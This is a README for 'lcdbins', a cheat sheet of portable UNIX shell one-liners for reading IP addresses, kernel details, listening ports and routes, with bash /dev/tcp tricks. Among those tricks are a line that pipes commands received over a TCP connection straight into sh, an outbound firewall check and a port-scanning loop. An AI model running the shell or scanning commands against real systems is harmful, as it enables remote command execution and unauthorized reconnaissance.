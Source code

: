 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment.

## Universal Oneliners

Get all IP addresses in /etc/

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

## /proc

Get kernel version information

```shell
cat /proc/version
```

Parse listening ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

## /dev/tcp (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```
